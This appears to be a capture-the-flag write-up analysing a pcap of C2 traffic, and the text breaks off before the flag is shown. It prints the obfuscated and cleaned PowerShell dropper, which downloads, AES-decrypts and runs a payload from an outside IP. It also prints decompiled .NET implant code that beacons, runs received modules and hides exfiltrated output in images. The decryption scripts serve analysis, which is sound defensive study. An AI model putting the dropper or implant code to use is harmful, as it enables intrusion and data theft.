

# Interstellar C2 - Difficulty: hard
 `We noticed some interesting traffic coming from outer space. An unknown group is using a Command and Control server. After an exhaustive investigation, we discovered they had infected multiple scientists from Pandora's private research lab. Valuable research is at risk. Can you find out how the server works and retrieve what was stolen?`

## .pcap Analysis
We are given a pcap file "challenge.pcapng"

The .pcap capture shows HTTP communication between IP 192.168.25.140 and IP 64.226.84.200, presumably containing the C2 communication referenced in the challenge.


Analyzing the HTTP objects we are able to extract what looks like encrypted data, some malformed PNGs and a .ps1 script.


## PS1 dropper
We proceed by inspecting said ps1 script ( `vn84.ps1` ):

```powershell
  .("{1}{0}{2}" -f'T','Set-i','em') ('vAriA'+'ble'+':q'+'L'+'z0so')  ( [tYpe]("{0}{1}{2}{3}" -F'SySTEM.i','o.Fi','lE','mode')) ;  &("{0}{2}{1}" -f'set-Vari','E','ABL') l60Yu3  ( [tYPe]("{7}{0}{5}{4}{3}{1}{2}{6}"-F'm.','ph','Y.ae','A','TY.crypTOgR','SeCuRi','S','sYSte'));  .("{0}{2}{1}{3}" -f 'Set-V','i','AR','aBle')  BI34  (  [TyPE]("{4}{7}{0}{1}{3}{2}{8}{5}{10}{6}{9}" -f 'TEm.secU','R','Y.CrY','IT','s','Y.','D','yS','pTogrAPH','E','CrypTOSTReAmmo'));  ${U`Rl} = ("{0}{4}{1}{5}{8}{6}{2}{7}{9}{3}"-f 'htt','4f0','53-41ab-938','d8e51','p://64.226.84.200/9497','8','58','a-ae1bd8','-','6')
${P`TF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
.("{2}{1}{3}{0}"-f'ule','M','Import-','od') ("{2}{0}{3}{1}"-f 'r','fer','BitsT','ans')
.("{4}{5}{3}{1}{2}{0}"-f'r','-BitsT','ransfe','t','S','tar') -Source ${u`Rl} -Destination ${p`Tf}
${Fs} = &("{1}{0}{2}" -f 'w-Ob','Ne','ject') ("{1}{2}{0}"-f 'eam','IO.','FileStr')(${p`Tf},  ( &("{3}{1}{0}{2}" -f'lDIt','hi','eM','c')  ('VAria'+'blE'+':Q'+'L'+'z0sO')).VALue::"oP`eN")
${MS} = .("{3}{1}{0}{2}"-f'c','je','t','New-Ob') ("{5}{3}{0}{2}{4}{1}" -f'O.Memor','eam','y','stem.I','Str','Sy');
${a`es} =   (&('GI')  VARiaBLe:l60Yu3).VAluE::("{1}{0}" -f'reate','C').Invoke()
${a`Es}."KE`Y`sIZE" = 128
${K`EY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${a`ES}."K`EY" = ${K`EY}
${A`es}."i`V" = ${i`V}
${cS} = .("{1}{0}{2}"-f'e','N','w-Object') ("{4}{6}{2}{9}{1}{10}{0}{5}{8}{3}{7}" -f 'phy.Crypto','ptogr','ecuri','rea','Syste','S','m.S','m','t','ty.Cry','a')(${m`S}, ${a`Es}.("{0}{3}{2}{1}" -f'Cre','or','pt','ateDecry').Invoke(),   (&("{1}{2}{0}"-f 'ARIaBLE','Ge','T-V')  bI34  -VaLue )::"W`RItE");
${f`s}.("{1}{0}"-f 'To','Copy').Invoke(${Cs})
${d`ecD} = ${M`s}.("{0}{1}{2}"-f'T','oAr','ray').Invoke()
${C`S}.("{1}{0}"-f 'te','Wri').Invoke(${d`ECD}, 0, ${d`ECd}."LENg`TH");
${D`eCd} | .("{2}{3}{1}{0}" -f'ent','t-Cont','S','e') -Path "$env:temp\tmp7102591.exe" -Encoding ("{1}{0}"-f 'yte','B')
& "$env:temp\tmp7102591.exe"

```

The code is pretty obfuscated but after some work we are able to understand it pretty well:

```powershell
Set-Item Variable:QLz0sO System.IO.FileMode
Set-Variable l60Yu3 [System.Security.Cryptography.Aes]
Set-Variable BI34 [System.Security.Cryptography.CryptoStream]

${uRl} = "http://64.226.84.200/9497-4f0-53-41ab-9388-58a-ae1bd8-6"
${PTF} = "$env:temp\94974f08-5853-41ab-938a-ae1bd86d8e51"
Import-Module BitsTransfer
Start-BitsTransfer -Source ${uRl} -Destination ${pTf}
${Fs} = New-Object IO.FileStream(${pTf}, (Get-ChildItem Variable:QLz0sO).Value::Open)
${MS} = New-Object System.IO.MemoryStream
${aes} = (&('GI') Variable:l60Yu3).Value::Create()
${aEs}."KEYSIZE" = 128

${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)
${aES}."KEY" = ${KEY}
${Aes}."IV" = ${iV}

${cS} = New-Object 'System.Security.Cryptography.CryptoStream' `
    ($MS, $aes.CreateDecryptor.Invoke(), [System.Security.Cryptography.CryptoStreamMode]::Write)

${fs}.CopyTo.Invoke(${Cs})

${decD} = ${Ms}.ToArray.Invoke()

${CS}.Write.Invoke(${dECD}, 0, ${dECd}.Length)

${DeCd} | Set-Content -Path "$env:temp\tmp7102591.exe" -Encoding Byte

& "$env:temp\tmp7102591.exe"
```
The script connects to `${uRl} = "http://64.226.84.200/9497-4f0-53-41ab-9388-58a-ae1bd8-6"` and downloads an encrypted object.

The key used is `${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)` and the IV is `${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)`

With this information we can extract the transferred file (`tmp7102591.exe`) from the .pcap and decrypt it with the following script (we use powershell to avoid having to fully clean the script):

``` powershell
$cipherFile = "tcp_stream_2_data"

$plainFile = "out.bin"

${KEY} = [byte[]] (0,1,1,0,0,1,1,0,0,1,1,0,1,1,0,0)
${iv} = [byte[]] (0,1,1,0,0,0,0,1,0,1,1,0,0,1,1,1)

$aes = [System.Security.Cryptography.Aes]::Create()
$aes.Key = $key
$aes.IV = $iv

$fsCipher = New-Object System.IO.FileStream($cipherFile, [System.IO.FileMode]::Open, [System.IO.FileAccess]::Read)
$fsPlain = New-Object System.IO.FileStream($plainFile, [System.IO.FileMode]::Create, [System.IO.FileAccess]::Write)

$cs = New-Object System.Security.Cryptography.CryptoStream($fsCipher, $aes.CreateDecryptor(), [System.Security.Cryptography.CryptoStreamMode]::Read)

$buffer = New-Object byte[] 1024
$read = $cs.Read($buffer, 0, $buffer.Length)
while ($read -gt 0)
{
    $fsPlain.Write($buffer, 0, $read)
    $read = $cs.Read($buffer, 0, $buffer.Length)
}
$cs.Close()
$fsCipher.Close()
$fsPlain.Close()

```

We can verify that the file was decrypted successfully by checking with file:

```sh
file out.bin
out.bin: writable, executable, regular file, no read permission
```

## C2 implant analysis with ILSpy

The binary is a .Net executable, so we proceed by decompiling with ILSpy


The entry point just call `Sharp()`:

```csharp
public static void Main()
	{
		Sharp(0L);
	}
```

`Sharp()` setups the window and calls `primer()`
```csharp
public static void Sharp(long baseAddr = 0L)
	{
		DllBaseAddress = new IntPtr(baseAddr);
		if (!string.IsNullOrEmpty("") && !Environment.UserDomainName.ToLower().Contains("".ToLower()))
		{
			return;
		}
		IntPtr consoleWindow = GetConsoleWindow();
		ShowWindow(consoleWindow, 0);
		AUnTrCrts();
		int num = 30;
		int num2 = 60000;
		ManualResetEvent manualResetEvent = new ManualResetEvent(initialState: false);
		while (true && num > 0)
		{
			try
			{
				primer();
			}
			catch
			{
				num--;
				manualResetEvent.WaitOne(num2);
				num2 *= 2;
				continue;
			}
			break;
		}
		IntPtr currentThread = GetCurrentThread();
		TerminateThread(currentThread, 0u);
	}
```
`primer()` takes care of notifying the C2 server about the infection by making a request to the hardcoded address `"http://64.226.84.200:8080/Kettie/Emmie/Anni?Theda=Merrilee?c"` with some basic info of the victims system (Computer name, architecture, Environment) which is encrypted with the hardcoded key stored in `key` and passed as a cookie in the HTTP GET request.

We can validate that we have the right encryption setup by trying to decrypt the cookie with the key found (the implant doesn't specify IV values so the first 16 bytes of the encrypted are used):

`DESKTOP;DESKTOP\IEUser*;DESKTOP;AMD64;6796;tmp7102591;1`

```csharp
private static void primer()
	{
		if (!(DateTime.ParseExact("2025-01-01", "yyyy-MM-dd", CultureInfo.InvariantCulture) > DateTime.Now))
		{
			return;
		}
		dfs = 0;
		string text = "";
		try
		{
			text = WindowsIdentity.GetCurrent().Name;
		}
		catch
		{
			text = Environment.UserName;
		}
		if (ihInteg())
		{
			text += "*";
		}
		string userDomainName = Environment.UserDomainName;
		string environmentVariable = Environment.GetEnvironmentVariable("COMPUTERNAME");
		string environmentVariable2 = Environment.GetEnvironmentVariable("PROCESSOR_ARCHITECTURE");
		int id = Process.GetCurrentProcess().Id;
		string processName = Process.GetCurrentProcess().ProcessName;
		Environment.CurrentDirectory = Environment.GetEnvironmentVariable("windir");
		string text2 = null;
		string text3 = null;
		string[] array = basearray;
		for (int i = 0; i < array.Length; dfs++, i++)
		{
			string text4 = array[i];
			string un = $"{userDomainName};{text};{environmentVariable};{environmentVariable2};{id};{processName};1";
			string key = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=";
			text3 = text4;
			string address = text3 + "/Kettie/Emmie/Anni?Theda=Merrilee?c";
			try
			{
				string enc = GetWebRequest(Encryption(key, un)).DownloadString(address);
				text2 = Decryption(key, enc);
			}
			catch (Exception ex)
			{
				Console.WriteLine($" > Exception {ex.Message}");
				continue;
			}
			break;
		}
		if (string.IsNullOrEmpty(text2))
		{
			throw new Exception();
		}
		Regex regex = new Regex("RANDOMURI19901(.*)10991IRUMODNAR");
		Match match = regex.Match(text2);
		string randomURI = match.Groups[1].ToString();
		regex = new Regex("URLS10484390243(.*)34209348401SLRU");
		match = regex.Match(text2);
		string stringURLS = match.Groups[1].ToString();
		regex = new Regex("KILLDATE1665(.*)5661ETADLLIK");
		match = regex.Match(text2);
		string killDate = match.Groups[1].ToString();
		regex = new Regex("SLEEP98001(.*)10089PEELS");
		match = regex.Match(text2);
		string sleep = match.Groups[1].ToString();
		regex = new Regex("JITTER2025(.*)5202RETTIJ");
		match = regex.Match(text2);
		string jitter = match.Groups[1].ToString();
		regex = new Regex("NEWKEY8839394(.*)4939388YEKWEN");
		match = regex.Match(text2);
		string key2 = match.Groups[1].ToString();
		regex = new Regex("IMGS19459394(.*)49395491SGMI");
		match = regex.Match(text2);
		string stringIMGS = match.Groups[1].ToString();
		ImplantCore(text3, randomURI, stringURLS, killDate, sleep, key2, stringIMGS, jitter);
	}
```

The C2 server replies to the initial GET request with the basic configuration for the implant (Random uris to make requests to, random urls, the kill date, sleep parameter, jitter and some PNGs used later for hiding the results of execution) and most importantly the new encryption key to be used in all future communications (stored in `key2`).

We can extract the reply from the C2 server from the .pcap and as we did with the cookie and decrypt it using the found key (`DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc=`) to extract this parameters as well as the new encryption key.
```
NEWKEY8839394nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=4939388YEKWEN
# New key: nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ=
```

After parsing all the parameters, `ImplantCore()` is called:

```csharp
private static void ImplantCore(string baseURL, string RandomURI, string stringURLS, string KillDate, string Sleep, string Key, string stringIMGS, string Jitter)
{
	UrlGen.Init(stringURLS, RandomURI, baseURL);
	ImgGen.Init(stringIMGS);
	pKey = Key;
	int num = 5;
	Regex regex = new Regex("(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
	Match match = regex.Match(Sleep);
	if (match.Success)
	{
		num = Parse_Beacon_Time(match.Groups["t"].Value, match.Groups["u"].Value);
	}
	StringWriter stringWriter = new StringWriter();
	Console.SetOut(stringWriter);
	ManualResetEvent manualResetEvent = new ManualResetEvent(initialState: false);
	StringBuilder stringBuilder = new StringBuilder();
	double result = 0.0;
	if (!double.TryParse(Jitter, NumberStyles.Any, CultureInfo.InvariantCulture, out result))
	{
		result = 0.2;
	}
	string cmd;
	while (!manualResetEvent.WaitOne(new Random().Next((int)((double)(num * 1000) * (1.0 - result)), (int)((double)(num * 1000) * (1.0 + result)))))
	{
		if (DateTime.ParseExact(KillDate, "yyyy-MM-dd", CultureInfo.InvariantCulture) < DateTime.Now)
		{
			Run = false;
			manualResetEvent.Set();
			continue;
		}
		stringBuilder.Length = 0;
		try
		{
			string text = "";
			cmd = null;
			try
			{
				cmd = GetWebRequest(null).DownloadString(UrlGen.GenerateUrl());
				text = Decryption(Key, cmd).Replace("\0", string.Empty);
			}
			catch
			{
				goto end_IL_00f1;
			}
			if (!text.ToLower().StartsWith("multicmd"))
			{
				continue;
			}
			string text2 = text.Replace("multicmd", "");
			string[] array = text2.Split(new string[1] { "!d-3dion@LD!-d" }, StringSplitOptions.RemoveEmptyEntries);
			string[] array2 = array;
			foreach (string text3 in array2)
			{
				taskId = text3.Substring(0, 5);
				cmd = text3.Substring(5, text3.Length - 5);
				if (cmd.ToLower().StartsWith("exit"))
				{
					Run = false;
					manualResetEvent.Set();
					break;
				}
				if (cmd.ToLower().StartsWith("loadmodule"))
				{
					string s = Regex.Replace(cmd, "loadmodule", "", RegexOptions.IgnoreCase);
					Assembly assembly = Assembly.Load(Convert.FromBase64String(s));
					Exec(stringBuilder.ToString(), taskId, Key);
				}
				else if (cmd.ToLower().StartsWith("run-dll-background") || cmd.ToLower().StartsWith("run-exe-background"))
				{
					Thread thread = new Thread((ThreadStart)delegate
					{
						rAsm(cmd);
					});
					Exec("[+] Running background task", taskId, Key);
					thread.Start();
				}
				else if (cmd.ToLower().StartsWith("run-dll") || cmd.ToLower().StartsWith("run-exe"))
				{
					stringBuilder.AppendLine(rAsm(cmd));
				}
				else if (cmd.ToLower().StartsWith("beacon"))
				{
					Regex regex2 = new Regex("(?<=(beacon)\\s{1,})(?<t>[0-9]{1,9})(?<u>[h,m,s]{0,1})", RegexOptions.IgnoreCase | RegexOptions.Compiled);
					Match match2 = regex2.Match(text3);
					if (match2.Success)
					{
						num = Parse_Beacon_Time(match2.Groups["t"].Value, match2.Groups["u"].Value);
					}
					else
					{
						stringBuilder.AppendLine($"[X] Invalid time \"{text3}\"");
					}
					Exec("Beacon set", taskId, Key);
				}
				else
				{
					string text4 = rAsm($"run-exe Core.Program Core {cmd}");
				}
				stringBuilder.AppendLine(stringWriter.ToString());
				StringBuilder stringBuilder2 = stringWriter.GetStringBuilder();
				stringBuilder2.Remove(0, stringBuilder2.Length);
				if (stringBuilder.Length > 2)
				{
					Exec(stringBuilder.ToString(), taskId, Key);
				}
				stringBuilder.Length = 0;
			}
			end_IL_00f1:;
		}
		catch (NullReferenceException)
		{
		}
		catch (WebException)
		{
		}
		catch (Exception arg)
		{
			Exec($"Error: {stringBuilder.ToString()} {arg}", "Error", Key);
		}
		finally
		{
			stringBuilder.AppendLine(stringWriter.ToString());
			StringBuilder stringBuilder3 = stringWriter.GetStringBuilder();
			stringBuilder3.Remove(0, stringBuilder3.Length);
			if (stringBuilder.Length > 2)
			{
				Exec(stringBuilder.ToString(), "99999", Key);
			}
			stringBuilder.Length = 0;
		}
	}
}
```

After further analysis of the code here are the key takeaways:

The beacon communicates periodically with the C2 checking for new commands through URLs generated by randomURI and stringURLS (loaded in the first communication).

Every web request/response is encrypted with the same AES key (the one we extracted with the rest of the configuration for the implant).

The available commands are shown below:
 - multicmd
 - loadmodule
 - run-dll-background or run-exe-background
 - run-dll or run-exe
 - beacon


The beacon relays information back to the C2 server by hiding the response inside an image.

This is shown in the `Exec()` function below:

```csharp
public static void Exec(string cmd, string taskId, string key = null, byte[] encByte = null)
{
	if (string.IsNullOrEmpty(key))
	{
		key = pKey;
	}
	string cookie = Encryption(key, taskId);
	string text = "";
	text = ((encByte == null) ? Encryption(key, cmd, comp: true) : Encryption(key, null, comp: true, encByte));
	byte[] cmdoutput = Convert.FromBase64String(text);
	byte[] imgData = ImgGen.GetImgData(cmdoutput);
	int num = 0;
	while (num < 5)
	{
		num++;
		try
		{
			GetWebRequest(cookie).UploadData(UrlGen.GenerateUrl(), imgData);
			num = 5;
		}
		catch
		{
		}
	}
}
```

To recover the data sent by the implant we have to revert the operations applied in the construction of the image.

```csharp
internal static byte[] GetImgData(byte[] cmdoutput)
{
	int num = 1500;
	int num2 = cmdoutput.Length + num;
	string s = _newImgs[new Random().Next(0, _newImgs.Count)];
	byte[] array = Convert.FromBase64String(s);
	byte[] bytes = Encoding.UTF8.GetBytes(RandomString(num - array.Length));
	byte[] array2 = new byte[num2];
	Array.Copy(array, 0, array2, 0, array.Length);
	Array.Copy(bytes, 0, array2, array.Length, bytes.Length);
	Array.Copy(cmdoutput, 0, array2, array.Length + bytes.Length, cmdoutput.Length);
	return array2;
}
```

The cmdoutput is appended to the image after a number of characters chosen at random from a base string (`RandomString()`). From the code we can see that the length of the image plus the random bytes is 1500, so to decode the data we must do the following:
1. Remove first 1500 bytes from payload
2. Decrypt remaining bytes with the known AES Key
3. Decompress result using gzip


## Decrypting C2 implant responses

With this information we wrote the following python script to decrypt the responses coming from the beacon:

```python
import base64
from Crypto.Cipher import AES
import sys
import gzip

file2read = sys.argv[1]
file2write = sys.argv[2]

with open(file2read, 'rb') as _infile:
    input_data = _infile.read()

print(f"Reading {file2read}...")

# first_aes_key_b64 = "DGCzi057IDmHvgTVE2gm60w8quqfpMD+o8qCBGpYItc="
aes_key_b64 = "nUbFDDJadpsuGML4Jxsq58nILvjoNu76u4FIHVGIKSQ="
aes_key = base64.b64decode(aes_key_b64.encode())

input_data = input_data[1500:]

# For images data is already base64 decoded
unb64_ciphertext = input_data

# No iv is set so we have to use the first 16 bytes
iv = unb64_ciphertext[0:16]
unb64_ciphertext = unb64_ciphertext[16:]

# Create AES object and decrypt data
decryption_cipher = AES.new(aes_key, AES.MODE_CBC, iv=iv)
output_data = decryption_cipher.decrypt(unb64_ciphertext)

print(f"Writing .gzip to {file2write}.gzip (good luck...)")

with open(f'{file2write}.gzip', 'wb') as _file_out:
    _file_out.write(output_data)

# Now lets also unzip
unzip_data = gzip.decompress(output_data)

print("Decrypted message (first bytes only): ", unzip_data[:20].decode())

inp = input('Apply b64.decode to data? [y/n] ')

unb64_data = unzip_data
if inp == 'y':
    try:
        unb64_data = base64.b64decode(unzip_data.decode())
    except Exception:
        print("Bad choice, b64 decode failed...")
        unb64_data = unzip_data


with open(f'{file2write}.dec', 'wb') as f_out:
    f_out.write(unb64_data)
```

Decrypting the response to the `screenshot` command from the beacon to the server we get the flag:

